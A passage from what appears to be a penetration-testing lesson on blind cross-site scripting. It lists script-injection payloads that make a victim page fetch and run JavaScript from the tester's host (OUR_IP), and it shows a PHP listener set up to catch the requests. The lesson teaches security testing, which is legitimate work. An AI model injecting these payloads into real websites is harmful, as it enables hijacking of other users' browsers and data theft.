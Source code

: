 ## Loading a Remote Script

In HTML, we can write JavaScript code within the`<script>` tags, but we can also include a remote script by providing its URL, as follows:


```html
<script src="http://OUR_IP/script.js"></script>
```

So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from`script.js` to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:


```html
<script src="http://OUR_IP/username"></script>
```

If we get a request for`/username`, then we know that the`username` field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):


```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

As we can see, various payloads start with an injection like`'>`, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the`XSS Discovery` section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

Before we start sending payloads, we need to start a listener on our VM, using`netcat` or`php` as shown in a previous section:


```shell-session
smoothment@htb[/htb]$ mkdir /tmp/tmpserver
smoothment@htb[/htb]$ cd /tmp/tmpserver
smoothment@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:


```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

